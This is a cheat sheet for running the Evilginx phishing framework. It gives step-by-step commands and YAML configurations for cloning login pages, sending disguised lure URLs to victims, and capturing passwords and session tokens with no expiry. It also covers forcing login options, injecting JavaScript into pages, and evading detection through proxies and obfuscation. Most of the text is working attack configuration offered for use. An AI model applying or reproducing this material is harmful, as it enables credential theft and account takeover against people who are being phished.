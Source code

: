 # Evilginx CheatSheet

1. Clone the git repo of [evilginx](https://github.com/kgretzky/evilginx2).

2. Configure [phishlets](https://github.com/kgretzky/evilginx2/blob/master/phishlets/example.yaml). Sample in link, amazing YAML ease of use.

3. Once the phishlets are configured, open Evilginx and you will see the phishlet. Then configure the domain and IP.
    ![with phishlet I created](image.png)

4. You can get help like `help <keyword>`.

5. Set the hostname which should end with the domain you created when configuring the domain and IP, like `same.dummy.com`.

6. Set the hosts file entry if in local.

7. Set the lure up. Create a lure using `lures create <phishlet>`. The rest of it `help lures` gives the manual.

8. Once you get the lure URL, either send it to someone you want to phish or try the URL if you are testing it out.

9. The session will be captured. Make sure to add the modifier `always` to capture the session token without an expiry date. You can use `sessions` to list sessions, and `sessions <id>` to list the details of the session.

10. You can personalize the lures. Example of sending the lure as an invoice download: `lures edit 0 path /download/invoice/5465/`. You can change the hostname of the URL by `lures edit 0 hostname this.is.a.real.website.fake.com`.

11. You can use custom parameters in lures like `lures get-url 0 email=abhishek@gmail.com name="Abhishek Narasimhan"`. Every time the URL parameter would be different and will be difficult to find.

12. Replacing content on the fly is amazing. Example: changing the "Login" button to anything you want it to be by updating the sub-filters in the YAML file. Example:
     ```yaml
     sub_filters:
        - {triggers_on: 'dummy.dum.evilginx.com', orig_sub: 'akira', domain: 'dum.evilginx.com', search: '" Login "', replace: '" Get Phished! "', mimes: ['text/javascript']}
     ```

13. Forcing POST parameters, for example, to keep the user logged in even if they did not select the option. Example configuration in YAML file:
    ```yaml
    path: '/api/v1/auth/login'
    search: 
      - {key: 'email', search: '.*'}
      - {key: 'password', search: '.*'}
    force:
      - {key: 'remember_me', value: '1'}
    type: 'post'
    ```

14. No session token. What can be done? Format sent in JSON. The credential setting to check in JSON format is different.
    * There are instances where MFA is not enabled and the token will be present in the login endpoint.
    * Example in YAML:
    ```yaml
    auth_tokens:
      - domain: 'dummy.dum.evilginx.com'
        path: '/api/v1/auth/.*'
        name: 'token'
        search: '"token":"([^"]*)"'
        type: 'body'
    credentials:
      username:
        key: ''
        search: '"email":"([^"]*)"'
        type: 'json'
      password:
        key: ''
        search: '"password":"([^"]*)"'
        type: 'json'
    ```

15. JS injection using Evilginx.

    For the JS to be injected, you need to add `trigger_params` and its parameter; otherwise, it won't be injected. Sample YAML for `js_inject`:
    ```yaml
    js_inject:
      - trigger_domains: ["dummy.dym.evilginx.com"]
        trigger_paths: ["/"]
        trigger_params: ["email"]
        script: |
          function aaa() {
            var u = document.querySelector("input[type=email]");
            var p = document.querySelector("input[type=password]");
            var c = document.querySelector("#rememberCheck");
            if (u !== null && p !== null && c !== null) {
              c.checked = true;
              u.value= "{email}";
              p.focus();
            }
            else {
              bbb();
            }
          }
          function bbb() {
            setTimeout(function() {aaa();}, 100);
          }
          bbb();
    ```

16. Redirector are good and can be used for having landing lure pages. /Redirector is where you can have the .html or .css.
  - $ lures edit 0 redirector download_example

17. bulk lure url is another very good feature. You can either use txt or csv or json.
  - $ lures get-url 0 import <filepath>

18. You can actually use evinginx as a proxy itself.. Say you have server in Russia, and user to be phishing is in US, we can use ti for example.
  - $ proxy <option>
  - $ proxy enable

19. Blacklist Management - automatic blacklist of IP when there is no auth. You can remove the IP from blacklist from blacklist.txt file in .eviginx which
is present in C:\users\.evilginx\blacklist.txt.
  - $ blacklist <option>
Default redirect can be changed via $ config <redirect_url>

20. Obfuscate to harden security.